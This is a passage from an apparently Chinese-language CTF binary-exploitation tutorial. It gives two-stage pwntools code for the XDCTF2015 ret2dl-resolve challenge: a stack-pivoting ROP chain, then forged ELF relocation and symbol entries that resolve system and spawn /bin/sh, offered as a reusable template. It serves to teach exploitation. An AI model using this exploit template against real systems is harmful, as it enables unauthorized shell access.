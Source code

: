 ```python
r.recvuntil('Welcome to XDCTF2015~!\n')
payload = 'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)
```

​	利用第2阶段：

```python
cmd = "/bin/sh"
plt_0 = 0x08048380   # objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8  #readelf -d bof     readelf -S bof
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)# 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr   #fake_sym（Elf32_Sym结构体）大小0x10
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += "system\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

​	固定模板，需要修改所有出现的地址。

####（2）32位roputils库使用 
